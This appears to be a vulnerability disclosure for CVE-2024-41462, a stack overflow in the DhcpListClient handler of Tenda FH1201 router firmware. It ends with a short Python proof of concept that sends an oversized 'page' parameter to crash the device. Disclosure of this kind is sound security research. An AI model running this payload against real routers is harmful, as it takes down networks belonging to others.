


# DhcpListClient2

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41462

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the DhcpListClient function.The parameter page is copied to stackspace v7 via the sprintf function without checking the length,so an attacker can cause a denial of service attack by controlling the page parameter



### poc

```python
import requests

ip = '192.168.74.145'

url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)

```



